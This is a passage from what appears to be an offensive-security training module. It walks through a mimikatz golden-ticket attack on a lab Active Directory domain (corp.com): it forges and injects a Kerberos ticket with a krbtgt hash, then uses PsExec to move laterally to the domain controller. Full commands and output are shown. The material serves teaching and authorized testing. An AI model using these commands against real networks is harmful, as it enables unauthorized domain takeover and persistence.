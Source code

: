```shell
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```

With the golden ticket injected into memory, we've launched a new command prompt with **misc::cmd** from which we again attempt lateral movement with **PsExec**.

```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32>whoami
corp\jen
```

Note that by creating our own TGT and then using PsExec, we are performing the _overpass the hash_ attack by leveraging Kerberos authentication as we discussed earlier in this Module. If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked as the next listing shows.

```shell
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldnt access 192.168.50.70:
Access is denied.
```
